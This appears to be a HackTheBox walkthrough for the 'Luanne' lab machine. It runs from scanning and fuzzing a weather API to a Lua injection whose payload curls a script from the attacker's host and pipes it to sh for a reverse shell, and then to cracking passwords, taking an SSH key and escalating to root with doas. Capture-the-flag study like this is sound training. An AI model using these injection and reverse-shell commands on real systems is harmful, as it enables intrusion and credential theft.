 # HackTheBox Notes for Luanne Box.
----------------------------------

## Notes
--------
1. scan the network with a minimum rate for packets sent, which is way faster, note that, although this is fast,
    it may miss some ports!
    - `nmap --min-rate 10000 <ip-address>`
    at the same time we run the usual `nmap` and also for all the ports with `-p-` switch also:
    - `nmap -sC -sV -oA nmap/luanne-targeted 10.10.10.218`
    - `sudo nmap -p- 10.10.10.218 -oA nmap/luanne-allports`

2. We go to the ip address of `10.10.10.218` with the browser, we get asked for a user and password, no default passwords work.
    and if we escape password authentication, we get a 401 Unauthorized, which has a `127.0.0.1:3000`, From this forwarding we figure 
    that this is not just a simple html web application, it's doing something to forward it, we can get it from nmap results, but it's 
    too early for nmap to finish. we try the `10.10.10.218:3000`, we see unable to coneect, so the port is not listening. 

3. To get the server type quickly we use the curl as follow and we see that it's an `nginx` serevr:
    - `curl -v 10.10.10.218` 

4. An odd behaviour, `/` asks for authentication, but any other paths on the server does not, e.g. `10.10.10.218/index.html`

5. When nmap finished, we see that 9001 is alos an open port, `Medusa httpd 1.12 (Supervisor process manager)`. Also the system 
    is a NetBSD. If we try the 9001 port we see that it's a different unauthorized page, when we skip the auth, hence it should 
    point to different application, probably.

6. We google for the default user and password of the service, supervisor, we reach at, user, 123 defaults, we try these on the 9001
    port. It's successful! We see the supervisor output. 

7. We fire up the meta sploits:
    - `sudo msfdb run`
    we search for the supervisor, in the meta sploit shell, and select it:
    - `search supervisor`
    - `use 2`
    we note that, since it's till 2017, we may get discouraged, also we can show the version of the exploit and on which versions 
    it can work:
    - `show options`
    - `show targets`
    we see that it's from version 3.0 to 3.3, while our superviosr version is 4.2, so it will probably not work, nevertheless we try it.
    we see `LHOST` to `tun0` which it our ip, which can also be displayed with `ip a`, and we set the remote host ip, `RHOST` to the 
    ip of the machine, 10.10.10.218:
    - `set LHOST tun0` 
    - `set RHOST 10.10.10.218`
    we also set the http user and password:
    - `set HttpUsername user`
    - `set HttpPassword 123`
    since our payload is set for a linux one, we search for BSD one, we try a bunch like reverse tcp:
    - `set payload payload/bsd/x64/shell_reverse_tcp`
    - `run`
    we try others also, but we fail! it should not be suprising since we suspected from frist that it's not a compatible version of supervisor.

8.  As meta sploits yields no success, we look around the processes in supervisord. From processes we see that `httpd` runs weather api 
    through port 3000. If we curl the weather we will see a 404 not found.
    - `curl 10.10.10.218/weather/`

9. As `robots.txt` says it stills harvesting for cities, though it returns 404, we run the `/weather/` through a fuzzy word list, namely `ffuf`, fast web fuzzer,
    as security lists is not installed by default on kali, we first install it:
    - `sudo apt install seclists`
    fuzzing `/weather/` endpoint:
    - `ffuf -u http://10.10.10.218/weather/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt`
    we get one, `forecast`.

10. If we curl the forecast we see that it says no city list is specified, use `city=list`:
    - `curl 10.10.10.218/weather/forecast`
    if we specify the list itself we get the list of all cities which there is a forecast:
    - `curl 10.10.10.218/weathe/forecast?city=list`
    and if we specify London for example insteas of list itself we get the forecast for the city itself.

11. We search for special chars instead of city name itself, as special cases can make these api's fail in an unexpected way:
    - `ffuf -u http://10.10.10.218/weather/forecast?city=FUZZ -w /usr/share/seclists/Fuzzing/special-chars.txt`
    the only special character that returns a 200 is `%` sign.

12. We take a look to the output of the fuzzer which matches the return codes of 200 and 500:
    - `ffuf -u http://10.10.10.218/weather/forecast?city=FUZZ -w /usr/share/seclists/Fuzzing/special-chars.txt -mc 200,500`
    if we take a look to the output we can guess that we probably need characters with words greater than 5 (since % has words 
    greater than 5) and lines that are greater than 5:
    - `ffuf -u http://10.10.10.218/weather/forecast?city=FUZZ -w /usr/share/seclists/Fuzzing/special-chars.txt -mc 200,500 -fw 5`
    we get 3: `% + '`
    
14. If we try single quote we get a Lua, nil value error:
    - `curl 10.10.10.218/weather/forecast?city=\'`    

15. Now we try to inject the url with lua, we try some stuff with single quote, then we fuzz the url with a single quote:
    - `ffuf -u http://10.10.10.218/weather/forecast?city=\'FUZZ-- -w /usr/share/seclists/Fuzzing/special-chars.txt -mc 200,500`
    we try to get the one that is different, so by looking to the output we filter for `-fw 9`, then we get `)`, closing paranthesis 
    as a special character with different behaviour. 
    
16. Now with this we inject the url like this, note that from beforehand we fired up the burpsuit and we have sent the initial request 
    to the repeater, and we change the city to the following value:
    - `city=')+os.execute("id")--`    
    now we get the user and group id.

17. Now we try to get a reverse shell. We get a reverse shell oneliner for BSD NetCat. We listen on port 9001:
    - `nc -lvnp 9001`  
    we also open a local server to see if we get an appropriate response from the machine:
    - `python3 -m http.server`
    we set the city in the burp suit to:
    - `city=')+os.execute("curl+10.10.16.6:8000/shell.sh|+sh")--`
    the python server is to see if the above injection sends a response to the client.
    we get a reverse shell on the nc!
    Note that curl is receiving the `shell.sh` script from port 8000 and python server is set up where the script is. We serve the file
    with http server on the local machine, the remote machine receives the file and pipes it to `sh`. On the otherhand we listen to port
    9001 with `nc` on the local machine, since the final resonse of the machine is from port 9001.

18. There is no bash on the machine. When we look around we see a `.htpasswd`, when we cat it, we see a `webapi_user` and probably a 
    hashed password. we try to crack it. We use the `john` to crack the hash, which is a tool for simple passwords cracking:
    - `john pw --wordlist=/usr/share/wordlists/rockyou.txt`
    pw is the `user:password` file.
    We try to shh with the user and password, but the user/pass login ssh is blocked.

19. We do a `netstat` to search for other listening ports:
    - `netstat -an | grep -i list`
    we find that 3001 is also another listening port.

20. We search for processes that make use of the port, 3001:
    - `ps -auxw | grep 3001`
    we see one httpd process that is being run by the user `r.michaels`.
    we see if we can do a `su` with this user and previously found password from `john`:
    - `su - r.michaels`
    we fail!

21. By looking at the processes with `ps auwx | grep 3001` that are run on port 3001, we see that another server is run by the user `r.michaels` 
    on this port. We try to curl the localhost on this port the home directory of the user:
    - `curl --user webapi_user:iamthebest localhost:3001/~r.michaels/`
    we get a ftp like repsonse that is one link pointing to parent directory and one **id_rsa**, we can now curl that:
    - `curl --user webapi_user:iamthebest localhost:3001/~r.michaels/id_rsa`
    with this saving to a file and chmoding to 600, now we can ssh to the machine with this user and can a nice reverse shell.

22. We look around a little bit, udner `ls -la devel/www/` we see the `.htpasswd` file, by catting it, it's same one as we got before.
    by further looking around we see a .enc file, probably it's a gnu encrypted file. As there are the key rings in the home directory
    we may be able to decrypt it:
    - `netpgp --decrypt /home/r.michaels/backups/devel_backup-2020-09-16.tar.gz.enc --output=/tmp/backup.tar.gz`
    - `tar xvzf /tmp/backup.tar.gz` 

23. In the decrypred directory, inside the www directory we see a `.htpasswd` file, by catting it we see that it's a different one from the 
    previous one, by using `john` we get a `littlebear` password by the user `webapi_user`, but by doing a sudo in BSD, we get that it's the 
    root password!:
    - `doas whoami`
    we get root!
    Now we do a shell using sudo:
    - `doas sh`
    and voilla!

